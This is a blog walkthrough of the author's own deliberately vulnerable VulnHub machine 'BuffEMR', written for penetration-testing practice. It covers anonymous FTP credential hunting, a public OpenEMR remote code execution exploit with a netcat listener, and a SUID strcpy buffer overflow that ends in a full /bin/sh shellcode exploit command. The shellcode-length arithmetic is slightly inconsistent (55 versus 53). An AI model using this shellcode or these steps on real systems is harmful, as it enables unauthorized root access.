 ```yaml
---
layout: post
title: BuffEMR Walkthrough
---
```


![](/images/2021-12-01-BuffEmr/0.png)


This is a walk through of "BuffEMR" machine created by myself and is available here for hacking: [BuffEmr](https://www.vulnhub.com/entry/buffemr-101,717/). 

This machines have been purposefully created for practicing penetration testing skills. I have been getting a lot of twitter DMs for hint and helps to PAWN this machine, so I decided to release the walkthrough !


Firstly, we will start with Nmap:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 09:44 EDT
Nmap scan report for 10.0.0.63
Host is up (0.0085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21 14:21 share
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.0.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 92:4c:ae:7b:01:fe:84:f9:5e:f7:f0:da:91:e4:7a:cf (RSA)
|   256 95:97:eb:ea:5c:f8:26:94:3c:a7:b6:b4:76:c3:27:9c (ECDSA)
|_  256 cb:1c:d9:56:4f:7a:c0:01:25:cd:98:f6:4e:23:2e:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds

```

As we can see, there are three ports open (http, ftp, ssh).

We will check the webapp first:
![](/images/2021-12-01-BuffEmr/1.png)

It is running openEMR, If you try try some default credentials, it won’t work!

For now, we will login into FTP as we can use anonymous login:

![](/images/2021-12-01-BuffEmr/2.png)

The FTP share contains source code for openemr, let’s try and find out any interesting information’s here by searching for sensitive information (eg: grep -ri password .
  or grep -ri key .)


The first thing I found was a pdfkey for something :

![](/images/2021-12-01-BuffEmr/3.png)

The second interesting thing I found was a file under /tests that contains admin creds : 

![](/images/2021-12-01-BuffEmr/4.png)

Now let’s try and use this on openemr:

![](/images/2021-12-01-BuffEmr/5.png)

Now we have access and we know the version.

After looking for exploits, I found multiple vulnerabilities for this version of OpenEMR including remote code execution.

Reference: [Exploit](https://www.exploit-db.com/exploits/45161)


Run the python file with a netcat listening on port 1337:

![](/images/2021-12-01-BuffEmr/6.png)

Now we have access to the box:


![](/images/2021-12-01-BuffEmr/7.png)


![](/images/2021-12-01-BuffEmr/8.png)

We don’t have access to user folder, but we do have access to /var where I found a password protected zip file:

![](/images/2021-12-01-BuffEmr/9.png)

Now I am going to transfer the file to my local machine and use the pdfkey found earlier to see what is in it:

![](/images/2021-12-01-BuffEmr/10.png)


![](/images/2021-12-01-BuffEmr/11.png)

The zip file contains the password which can be used to ssh as buffemr:

![](/images/2021-12-01-BuffEmr/12.png)


The first thing I do to escalate privilege is to see the current user AKA.BuffEMR have the rights to run anything as sudo, which in this case we does not have:


![](/images/2021-12-01-BuffEmr/13.png)

Now after some enumeration, I found an executable owned by root (suid bit set) in the /opt directory :


![](/images/2021-12-01-BuffEmr/14.png)

I ran strings command on the binary and found out that there is a function the binary use called “strcpy”.  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk.


![](/images/2021-12-01-BuffEmr/15.png)

Maybe, we will try to over flow the buffer to run a shell code to get root !

We will use gdb for this:


![](/images/2021-12-01-BuffEmr/16.png)


The hex of A is \x41, at 520 it overrides EIP and at 510 it doesn’t override EIP, so we need to find the magic number that overrides EIP without going over, between 520 and 510:

After few tries, I found out that 516 is the magic number:

![](/images/2021-12-01-BuffEmr/17.png)

Now, we need a shell code:

[shell-code-priv-esc]( https://github.com/san3ncrypt3d/shell-code-priv-esc)

This is the shell code I am going to use:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

```

Let’s find out the length of the shell code:



![](/images/2021-12-01-BuffEmr/18.png)

Our shell code is 55, we needed 516 A’s to override EIP, and 4 bytes is return address, so the buffer size will be 516-4 = 512

So, the plan is to use NOPs or no operations followed by shell code, to get a shell.

How many NOPs ?

512 – 53 = 459.

Note: NOP is \x90 in hex

So, we are going to run this:

```
python -c “print ‘\x90’ * 459 + ‘\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh’ + ‘\x41\x41\x41\x41’”
```



We don’t know the return address yet, so I am going to use 41 (A’s):


![](/images/2021-12-01-BuffEmr/19.png)

Now use the command to examine the memory:
```
x/300wx $esp
```

![](/images/2021-12-01-BuffEmr/20.png)

As we can see, the 0x90 is our NOP, so we can use any of the return address of the NOP to get our shell executed after:



Let’s run this:

```
run $(python -c "print '\x90'*459 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xc0\xd6\xff\xff'")
```

After execution, we get a shell but inside gdb it still says we don’t have the elevated privilege, so exit out of gdb and run the same command :

![](/images/2021-12-01-BuffEmr/21.png)



Now we can access the root flag as we escalated our privilege :


![](/images/2021-12-01-BuffEmr/22.png)



